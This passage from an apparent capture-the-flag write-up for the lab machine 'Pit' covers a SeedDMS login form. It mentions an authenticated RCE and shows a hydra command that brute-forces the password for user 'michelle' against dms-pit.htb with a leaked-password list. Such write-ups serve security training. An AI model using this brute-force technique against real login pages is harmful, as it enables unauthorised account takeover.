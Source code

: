 
* Don't have version information.
* And it is a authenticated RCE, required login creds.

## Login Form Bruteforce with hydra

* Bruteforcing password for username found in SNMP Enumeration: `michelle`.

using hydra to bruteforce password.

![](/assets/img/posts/pit/hydra-brute-body.png)

```bash
"<url>:<login-data>:<error>"
```

```bash
hydra -l michelle -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt dms-pit.htb http-post-form "/seeddms51x/seeddms/op/op.Login.php:referuri=%2Fseeddms51x%2Fseeddms%2Fout%2Fout.ViewFolder.php%3Ffolderid%3D1&login=^USER^&pwd=^PASS^&lang=:Error signing in."
```

![](/assets/img/posts/pit/seeddms-hydra.png)
